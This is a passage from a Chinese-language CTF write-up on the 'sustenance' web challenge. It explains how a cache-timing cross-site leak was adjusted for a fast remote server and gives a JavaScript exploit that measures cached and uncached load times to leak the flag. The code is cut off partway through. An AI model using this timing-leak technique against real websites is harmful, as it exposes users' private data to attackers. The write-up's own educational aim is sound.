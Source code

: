 但他碰到的問題是 local 可以跑，可是在 remote 上面怎麼樣都是 false positive。於是我照著他的 POC 改了一下，試著多回傳一些數字，發現問題出在 server 跑得異常的快。舉例來說，有 cache 的要 3ms，沒有 cache 的也只要 5ms，相差極少，連 timestamp 的部分也是，大概是 `window.open` 之後 10ms 以內。

因此我修改了一下程式碼，直接在遠端計算有 cache 的平均時間，就順利 leak 出了 flag，程式碼如下：

https://gist.github.com/aszx87410/e369f595edbd0f25ada61a8eb6325722

``` js
// to hang the connection
fetch('https://deelay.me/20000/https://example.com')

// NOTE: we will calculate this baseline before doing the attack
var baseLine = 3.2
const sleep = ms => new Promise((resolve) => setTimeout(resolve, ms))

go()
async function go() {
  await calculateBaseline()
  main()

  async function calculateBaseline() {
    var m = Math.random()
    let win = window.open('https://sustenance.web.actf.co/?m=cached_' + m)
    
    // NOTE: this number can be decreased by detecting window load
    await sleep(500)
    win.close()
    let total = 0
    for(let i=1; i<=5; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=cached_' + m)
      total += ts
      report(`Cached time, round: ${i}, ${ts}ms`)
    }
    // NOTE: 0.5 is just a random guess
    baseLine = (total/5) + 0.5
    report(`Baseline: ${baseLine}`)
    
    // NOTE: adjust baseline, should not be more than 3 ms based on previous testing
    if (baseLine > 3) {
      baseLine = 3
    }
    for(let i=1; i<=3; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=not_cached_' + m)
      report(`Not Cached time, round: ${i}, ${ts}ms`)
    }
  }

  // NOTE: server is quite fast so no need to set timeout
  async function getLoadTime(url) {
    const start = performance.now()
    await fetch(url, { cache: 'force-cache', mode: 'no-cors' })
    return performance.now() - start
  }

  function genSucceedUrl(t) {
    let ft = t + ''
    while(ft.length < 13) {
      ft += '0'
    }
    const status = "succeeded, but please give me sustenance if you want to be able to see your search results because I desperately require sustenance";
    return 'https://sustenance.web.actf.co/?m=' + encodeURIComponent(`your search that took place at ${ft} has ${status}`);
  }

```